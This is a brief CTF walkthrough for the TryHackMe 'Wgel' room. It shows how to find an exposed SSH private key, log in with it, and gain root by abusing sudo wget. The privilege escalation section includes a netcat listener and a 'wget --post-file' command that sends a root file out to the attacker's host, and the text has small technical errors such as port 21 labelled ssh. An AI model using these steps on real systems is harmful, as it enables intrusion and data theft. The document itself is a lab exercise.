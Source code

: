 ```yaml
---
title: Wgel CTF WalkThrough
permalink: /wgel
layout: pages
tags: TryHackMe
---
```

# Wgel CTF
# ![front](/images/wgel/front.png)
[https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
**Found name _Jxxxxe_ in source page of index page**
1. find sub-doamisn and directories usind **dirb**
   - ip/sitemap/.ssh **(Found a private ssh key)**
   
## Gaining Access:
 - Save the key in a text file and change mode to 600
  ```
    >chmod 600 key.txt
  ```
 - Connect to SSH using the key
  ```
   >ssh -i key.txt jxxxxe@ip
  ```
### USER Flag:
![user_flag](/images/wgel/user.png)
 

## Privilege Escalation:
 - sudo -l
    - Only user/bin/wget allowed as suoder
    - Open **netcat** port 80 on host
      ```
        >nc -lvpn 80 >flag.txt
      ```
    - In target 
      ```
      >sudo wget --post-file=/root/root_flag.txt ip_of_host
      ```

### Root Flag:
![rootflag.png](/images/wgel/root.png)

